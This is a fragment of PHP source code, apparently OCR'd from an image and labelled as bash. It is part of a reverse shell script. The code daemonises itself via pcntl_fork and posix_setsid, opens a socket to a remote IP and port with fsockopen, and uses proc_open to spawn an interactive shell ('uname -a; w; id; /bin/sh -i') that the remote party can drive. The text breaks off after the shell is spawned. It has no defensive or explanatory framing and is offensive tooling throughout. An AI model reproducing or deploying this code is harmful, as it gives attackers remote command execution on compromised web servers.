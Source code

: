 ```bash
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

```
